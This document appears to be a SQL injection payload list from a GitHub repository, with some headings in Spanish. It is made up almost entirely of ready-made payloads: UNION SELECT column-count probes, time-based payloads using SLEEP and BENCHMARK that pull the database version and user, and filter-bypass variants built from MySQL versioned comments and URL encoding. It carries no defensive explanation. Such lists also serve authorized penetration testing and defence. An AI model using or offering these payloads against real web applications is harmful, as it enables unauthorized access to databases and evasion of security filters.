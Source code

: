 ```
 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)
 
 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7


```

### Union Select + sleep() + BENCHMARK(1000000,MD5('A')) Payloads

```
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 
```

### tecnicas para hacer bypass en sql inyection 

#### bypass usando comentarios
```
 /*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)

```
#### bypass usando comentarios + url encoding 
```
 /*!%55nion*/%20/*!%53elect*/1
```